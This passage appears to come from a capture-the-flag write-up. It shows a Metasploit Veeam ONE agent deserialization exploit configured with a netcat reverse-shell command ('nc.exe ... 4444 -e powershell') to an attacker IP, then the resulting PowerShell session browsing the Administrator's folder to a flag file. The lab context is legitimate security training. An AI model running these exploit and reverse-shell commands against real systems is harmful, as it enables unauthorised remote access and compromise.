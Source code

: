 ```bash
Payload options (windows/x64/exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CMD                        yes       The command string to execute
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)


Exploit target:

   Id  Name
   --  ----
   0   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(windows/misc/veeam_one_agent_deserialization) > set CMD "C:\ProgramData\nc.exe 10.11.75.200 4444 -e powershell"
CMD => C:\ProgramData\nc.exe 10.11.75.200 4444 -e powershell
msf6 exploit(windows/misc/veeam_one_agent_deserialization) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(windows/misc/veeam_one_agent_deserialization) > run

[*] 127.0.0.1:2805 - Connecting to 127.0.0.1:2805
[*] 127.0.0.1:2805 - Sending host info to 127.0.0.1:2805
[*] 127.0.0.1:2805 - Executing Windows Command for windows/x64/exec
[*] 127.0.0.1:2805 - Sending malicious handshake to 127.0.0.1:2805
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/veeam_one_agent_deserialization) >
```
{: .nolineno}
{: .nolineno}

And before running this exploit I uploaded the <span style="color:#f04276">nc.exe</span> in `C:\ProgramData\nc.exe` location with wget command .

![Image](Pasted%20image%2020240318145311.png)
_uploaded nc.exe executable file_

And After running this exploit and catching the reverse shell like this 🔻

![Image](Pasted%20image%2020240318143530.png)
_Reverse shell !!_

```powershell
PS C:\windows\system32> whoami
whoami
set\one
PS C:\windows\system32> cd C:\Users\Administrator
cd C:\Users\Administrator
PS C:\Users\Administrator> tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 6EC8-9D7C
C:.
+---3D Objects
+---Contacts
+---Desktop
|       Flag3.txt
|       
+---Documents
+---Downloads
```